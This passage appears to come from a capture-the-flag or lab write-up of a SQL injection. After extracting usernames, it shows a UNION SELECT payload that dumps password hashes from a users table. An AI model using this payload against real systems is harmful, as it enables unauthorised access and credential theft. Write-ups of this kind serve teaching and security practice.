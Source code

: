 We get a whole bunch of usernames:

<img style="float: left;" src="screenshots/screenshot23.png">

Let's take down these names and move on to obtain the passwords from the **password** column:

```
test' UNION SELECT GROUP_CONCAT(password),NULL,NULL,NULL FROM users--
```

We get a lot of password hashes:

<img style="float: left;" src="screenshots/screenshot24.png">

